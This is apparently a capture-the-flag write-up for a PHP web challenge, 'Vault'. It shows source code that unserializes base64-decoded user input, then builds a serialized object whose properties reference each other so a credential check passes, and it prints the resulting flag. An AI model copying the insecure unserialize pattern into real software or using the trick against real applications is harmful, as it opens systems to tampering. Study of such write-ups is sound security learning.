

# Vault

I only rajin to do this writeup because I learn a lot on this one, other challs not rlly (skill issue)

<figure><figcaption></figcaption></figure>

We are given source code.



```php
<?php
require('sequence.php');
ini_set('display_errors', 0);

if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $vault_open = true;
    $bankPin = new Sequence();
    $bankPin->generateVaultRandom();

    $user = $_POST['sequence'] ?? '';

    if (!($base64DecodedSequence = base64_decode($user))) {
        echo("DANGER ABORTING");
        die();
    }

    if (!($validSequence = unserialize($base64DecodedSequence))) {
        echo("NOT A VALID SEQUENCE");
        die();
    }

    if (!($validSequence instanceof Sequence)) {
        echo "NOT A VALID SEQUENCE";
        die();
    }

    for ($x = 0; $x < 10; $x++) {
        $validSequence->vaultCreds = $bankPin->vaultCreds; //set as bank creds
    }

    for ($z = 0; $z < 10; $z++) {
        if ($validSequence->vaultCreds[$z] !== $validSequence->guardCreds[$z]) {
            $vault_open = false;
        }
    }

}
?>

<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Vault Login</title>
  <style>
    body {
      display: flex;
      flex-direction: column;
      justify-content: center;
      align-items: center;
      height: 100vh;
      margin: 0;
      background-color: #1a1a1a;
      font-family: Arial, sans-serif;
      color: white;
    }
    .vault {
      position: relative;
      width: 250px;
      height: 250px;
      background: radial-gradient(circle, #666, #333);
      border-radius: 50%;
      box-shadow: inset -10px -10px 20px #222, inset 10px 10px 20px #777, 0 8px 16px rgba(0, 0, 0, 0.8);
      display: flex;
      justify-content: center;
      align-items: center;
      margin-bottom: 20px;
    }
    .vault-door {
      position: absolute;
      width: 200px;
      height: 200px;
      background: #444;
      border-radius: 50%;
      border: 5px solid #555;
      box-shadow: 0 8px 16px rgba(0, 0, 0, 0.5), inset -5px -5px 10px #222, inset 5px 5px 10px #666;
      transform-origin: center left;
      transition: transform 1s ease-in-out;
      transform: <?php echo $vault_open ? 'rotateY(120deg)' : 'rotateY(0deg)'; ?>;
    }
    .handle {
      position: absolute;
      width: 50px;
      height: 8px;
      background: #999;
      top: 50%;
      left: 50%;
      transform: translate(-50%, -50%) rotate(45deg);
      border-radius: 4px;
    }
    .handle:before,
    .handle:after {
      content: "";
      position: absolute;
      width: 8px;
      height: 50px;
      background: #999;
      border-radius: 4px;
      top: 50%;
      left: 50%;
      transform: translate(-50%, -50%);
    }
    .handle:before {
      transform: translate(-50%, -50%) rotate(45deg);
    }
    .handle:after {
      transform: translate(-50%, -50%) rotate(-45deg);
    }
    form {
      text-align: center;
    }
    input[type="sequence"] {
      padding: 10px;
      margin-bottom: 10px;
      font-size: 16px;
      border: 1px solid #555;
      border-radius: 5px;
      width: 200px;
      background-color: #222;
      color: white;
    }
    button {
      padding: 10px 20px;
      font-size: 16px;
      border: none;
      border-radius: 5px;
      background-color: #28a745;
      color: white;
      cursor: pointer;
    }
    button:hover {
      background-color: #218838;
    }
    .error {
      color: #ff4d4d;
      font-size: 14px;
      margin-top: 10px;
    }
    .flag {
      margin-top: 20px;
      padding: 20px;
      background-color: #222;
      color: #0f0;
      border-radius: 5px;
      font-size: 18px;
    }
  </style>
</head>
<body>
  <div class="vault">
    <div class="vault-door">
      <div class="handle"></div>
    </div>
  </div>

  <form method="POST" action="">
    <input type="password" name="sequence" placeholder="Enter Vault Sequence" required>
    <button type="submit">Open Vault</button>
    <?php if ($_SERVER["REQUEST_METHOD"] === "POST" && !$vault_open): ?>
      <div class="error">Incorrect sequence. Try again!</div>
      <?php echo "<div class='flag'>" . "Vault creds are " . implode(', ', $validSequence->vaultCreds) . "</div>" . "</br>" ;?>
      <?php echo "<div class='flag'>" . "Guard creds are " . implode(', ', $validSequence->guardCreds) . "</div>" . "</br>" ;?>
    <?php endif; ?>
  </form>

  <?php if ($_SERVER["REQUEST_METHOD"] === "POST" && $vault_open): ?>
    <div class="flag">Flag: EQCTF{FAKE_FLAG}</div>
    <?php echo "<div class='flag'>" . "Vault creds are " . implode(', ', $validSequence->vaultCreds) . "</div>" . "</br>" ;?>
    <?php echo "<div class='flag'>" . "Guard creds are " . implode(', ', $validSequence->guardCreds) . "</div>" . "</br>" ;?>
  <?php endif; ?>
</body>
</html>
```



```php
<?php

class Sequence {
    public $vaultCreds;
    public $guardCreds;

    public function generateVaultRandom()
    {
        for ($x = 0; $x < 10; $x++) {
            $randomNumber = random_int(0, 999999999);
            $this->vaultCreds[] = $randomNumber;
        }
    }
}
```



## Analysis

Take a look at this part first in index

This snippet creates a new instance of the `Sequence` class and calling the `generateVaultRandom()` function and passing it to the `$bankPin` object

```php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $vault_open = true;
    $bankPin = new Sequence();
    $bankPin->generateVaultRandom();    // generateVaultRandom() is a method (function inside a class defined in sequence.php)
```

Vulnerability arises here:

```php
$user = $_POST['sequence'] ?? '';

    if (!($base64DecodedSequence = base64_decode($user))) {
        echo("DANGER ABORTING");
        die();
    }

    if (!($validSequence = unserialize($base64DecodedSequence))) {
        echo("NOT A VALID SEQUENCE");
        die();
    }
```

This snippet takes in user input as `sequence` parameter for a POST request and decodes it with base64. It also unserializes the input without proper validation which causes a PHP Deserialization vulnerability. I had a good read from this article about it

Basically inputs that are not sanitized can be tampered with after being serialized.&#x20;



Critical point in source code:

```php
for ($x = 0; $x < 10; $x++) {
        $validSequence->vaultCreds = $bankPin->vaultCreds; //set as bank creds
}

// vaultCreds is a property (variable inside a class defined in sequence.php)
```

We can see the `vaultCreds` property is being overwritten by random values generated by `$bankpin` object but the `guardCreds` property is untouched and not being overwritten by anything. Meaning this is where we want to manipulate the value using PHP Deserialization.

Also one thing to note is the correct credential variable `$validSequence` is being referenced by the value of the random generated numbers of `vaultCreds`

And finally when both of the properties being compared result in an equal value. The vault opens and we get the flag.

```php
 for ($z = 0; $z < 10; $z++) {
    if ($validSequence->vaultCreds[$z] !== $validSequence->guardCreds[$z]) {
            $vault_open = false;
    }
}
 
 ...
 ...
 ...
 
 <?php if ($_SERVER["REQUEST_METHOD"] === "POST" && $vault_open): ?>
    <div class="flag">Flag: EQCTF{FAKE_FLAG}</div>
    <?php echo "<div class='flag'>" . "Vault creds are " . implode(', ', $validSequence->vaultCreds) . "</div>" . "</br>" ;?>
    <?php echo "<div class='flag'>" . "Guard creds are " . implode(', ', $validSequence->guardCreds) . "</div>" . "</br>" ;?>
 <?php endif; ?>
```



## Exploit

Reading the article I mentioned earlier gave me a rough idea on how to do this

First, we create the same class and assign an object

```php
class Sequence {
    public $vaultCreds;
    public $guardCreds;
}


$sequence = new Sequence();
```

Next we assign the values and here is the trick, we use the `&` operator to make a reference to the `vaultCreds` so `guardCreds` will  always match and have the same value as `vaultCreds` after the random number generator. We can input anything here like a 0.

```php
$sequence->vaultCreds = 0;
$sequence->guardCreds = &$sequence->vaultCreds; 
```

Finally we serialize and encode it in base64

```php
$serialized = serialize($sequence);

$base64 = base64_encode($serialized);
```

Full script:

```php
<?php
class Sequence {
    public $vaultCreds;
    public $guardCreds;
}

$sequence = new Sequence();


$sequence->vaultCreds = 0;    // Assign random value dont care
$sequence->guardCreds = &$sequence->vaultCreds; // Reference 'vaultCreds'


$serialized = serialize($sequence);
$base64 = base64_encode($serialized);


echo $base64;
?>
```

Run the script

<figure><figcaption></figcaption></figure>

Send the string

<figure><figcaption></figcaption></figure>

`FLAG: EQCTF{W0W_vaUlt_Open4d_tHr0uGh_pHp}`
